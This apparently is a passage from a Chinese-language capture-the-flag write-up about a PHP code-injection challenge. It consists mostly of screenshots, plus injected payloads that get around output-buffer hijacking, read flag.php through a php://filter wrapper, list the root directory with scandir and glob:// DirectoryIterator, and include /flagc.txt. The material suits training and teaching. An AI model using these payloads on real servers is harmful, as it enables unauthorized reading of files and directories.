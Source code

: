 ![image-20250404165825935](./assets/image-20250404165825935.png)

![image-20250404165830244](./assets/image-20250404165830244.png)



同样存在缓冲区劫持

绕过

![image-20250404165849531](./assets/image-20250404165849531.png)

读取flag

```
c=include("php://filter/convert.base64-encode/resource=flag.php");die();
```

![image-20250404165932298](./assets/image-20250404165932298.png)

![image-20250404165947919](./assets/image-20250404165947919.png)



还是不在这里

读取根目录

```
c=var_export(scandir("/"));die();
```

![image-20250404170013773](./assets/image-20250404170013773.png)

读取flagc.txt

```
c=include("/flagc.txt");die();
```

![image-20250404170039319](./assets/image-20250404170039319.png)



或者利用glob伪协议读取根目录内容

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```

![image-20250404170358957](./assets/image-20250404170358957.png)